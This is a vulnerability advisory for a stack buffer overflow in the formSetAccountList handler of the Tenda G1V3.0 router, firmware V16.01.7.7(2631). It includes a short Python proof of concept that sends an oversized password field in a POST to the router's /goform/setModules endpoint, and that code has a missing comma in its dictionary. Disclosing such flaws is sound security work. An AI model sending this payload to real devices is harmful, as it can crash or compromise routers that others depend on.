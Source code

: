 # Tenda G1V3.0 formSetAccountList
### Overview
vendor: Tenda Enterprise-level wired router

product: G1V3.0 

version: V16.01.7.7(2631)

type: Stack Overflow
### Vulnerability Description
Tenda G1V3.0 Enterprise-level wired router V16.01.7.7(2631) were discovered to contain a stack overflow in the formSetAccountList function.Devices allows remote attackers to cause a denial of service via a crafted parameter for the http post request.
### Vulnerability details
In function formSetAccountList line 31、35, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G1v30-2-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
